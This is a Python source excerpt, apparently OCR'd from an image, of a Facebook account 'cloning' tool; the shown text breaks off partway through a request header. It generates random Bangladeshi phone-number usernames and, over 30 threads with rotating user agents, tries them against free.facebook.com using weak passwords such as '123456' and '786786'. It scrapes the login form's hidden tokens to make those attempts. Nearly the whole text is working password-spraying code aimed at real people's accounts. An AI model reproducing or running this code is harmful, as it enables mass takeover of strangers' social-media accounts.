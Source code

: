 
def Tabii2():
    user=[]
    
    os.getuid
    os.geteuid
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :👇\033[0;m]")
    print(f"")
    print(' 880171 , 880172 , 880173 \n 880174 , 880191 , 880192\n 880193 , 880194 , 880181\n 880182 , 880183 , 880184\n 880161 , 880162 , 880163 ')
    print(f"")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 1000, 2000, 5000, 10000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\n {WHITE}TOTAL IDZ             : {RED}"+tl)
        print(f" {WHITE}COUNTRY YOU CHOOSE    : {RED}BANGLADESH 🇧🇩")
        print(f" {WHITE}NUMBER YOU PUT        : {RED}"+code)
        print(f" {WHITE}PROCESS HAS BEEN STARTED")
        print(f" {WHITE}BE PATIENT.......")
        print(f" {WHITE}TO STOP PROCESS Ctrl + Z ")
        print(f'{RED}==========================================================')
        for love in user:
            uid = code+love
            pwx = [love,'786786','123456']
            manshera.submit(m,uid,pwx,tl)
def m(uid,pwx,tl):
    global loop
    global ok
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            pro = random.choice(ugen)
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header = ({"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',